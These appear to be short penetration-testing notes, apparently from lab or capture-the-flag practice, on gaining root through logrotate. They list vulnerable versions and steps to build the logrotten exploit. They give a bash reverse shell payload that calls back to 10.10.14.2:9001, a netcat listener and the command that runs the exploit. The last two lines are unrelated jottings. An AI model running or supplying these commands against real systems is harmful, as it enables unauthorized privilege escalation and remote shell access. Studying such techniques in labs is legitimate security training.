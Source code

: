 Used to rotate out old log files

**Check config file
```shell-session
cat /etc/logrotate.conf
```

**To force a new rotation on the same day, edit the dat in /var/lib/logrotate.status

**Configuration files for apps located in /etc/logrotate.d/

Exploit requirements:
- Write permissions
- Run as a privileged user or root
- Vulnerable versions:
  - 3.8.6
  - 3.11.0
  - 3.15.0
  - 3.18.0

 **Logrotten
 ```shell-session
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```

**Reverse shell
```shell-session
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Check if config command is creat or compress
```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

**Create listener
```shell-session
nc -lvnp 9001
```

**Run exploit
```shell-session
./logrotten -p ./payload /tmp/tmp.log
```
- Use a valid log file that is writeable

- 137 van
- run report last 7 days

